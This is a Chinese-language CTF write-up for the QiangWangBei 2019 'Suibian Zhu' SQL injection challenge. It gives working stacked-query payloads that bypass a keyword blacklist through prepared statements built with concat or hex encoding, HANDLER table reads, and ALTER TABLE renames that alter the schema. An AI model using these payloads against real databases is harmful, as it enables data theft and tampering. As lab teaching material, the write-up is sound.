






# 强网杯2019-随便注1

1、首先启动并访问靶机，可以看到一个输入框，先测试下`1' or 1=1 #`

提交后发现成功输出了该表的所有数据，但是没有flag



2、既然可以注入，我们试一下union联合查询，当然需要用order by测试列数，测得2列，所以我们注入

`1' union select 1,2 #`

3、然后发现系统提示

`return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);`

说明select关键字被过滤了，我们可以通过堆叠注入的方式，来绕过select关键字。

4、查看数据库

`1';show databases;#`



5、查看表名

`1';show tables;#`



6、查看一下第一个表"1919810931114514"的表结构，方法有两个

`1'; show columns from tableName;#`

或者

`1';desc tableName;#`

这里注意，如果tableName是纯数字，需要用\`反引号包裹。

查询到flag字段



8、获取flag

## 方法1（sql预处理拼接select关键字）

因为select关键字被过滤了，我们可以通过sql预处理去拼接select关键字：

```
1';prepare st from concat('s','elect',' * from `1919810931114514`');execute st;#
```



---

## 方法2（sql预处理十六进制编码）

依然使用sql预处理语句，但是后面的查询部分可以使用十六进制编码，这样就能绕过select关键字过滤

```
我们将select * from `1919810931114514` 进行十六进制编码

73656c656374202a2066726f6d20603139313938313039333131313435313460
```



payload：

这里注意前面要加0x即十六进制数标识

```
1';prepare st from 0x73656c656374202a2066726f6d20603139313938313039333131313435313460;execute st;#
或者
定义一个变量并将sql语句初始化，然后调用
1';Set @cnm = 0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare st from @cnm;execute st;#
```

---

## 方法3（handler句柄）

**说明：在SQL中，HANDLER 是用于直接访问表的一种方式。HANDLER 语句用于打开表，并为后续操作提供对表的直接访问。**

**(1)handler table_name open as hd; 指定数据表进行载入并返回句柄**

**(2)handler hd read first; 读取指定表/句柄的首航数据**

**(3)handler hd read next; 读取指定表/句柄的下一行数据**

**(4)handler hd close; 关闭句柄**

payload：

```
1';handler `1919810931114514` open;handler `1919810931114514` read first;handler `1919810931114514` close;

FlagHere
```

---

## 方法4（利用rename和alter重命名）

们输入1后，默认会显示id为1的数据，可以猜测默认显示的是words表的数据，查看words表结构第一个字段名为`id`我们把words表随便改成words1，然后把1919810931114514表改成words，再把列名flag改成id，就可以达到直接输出flag字段的值的效果

```
1';alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);#

然后通过
1' or 1 = 1 #
成功得到flag
```
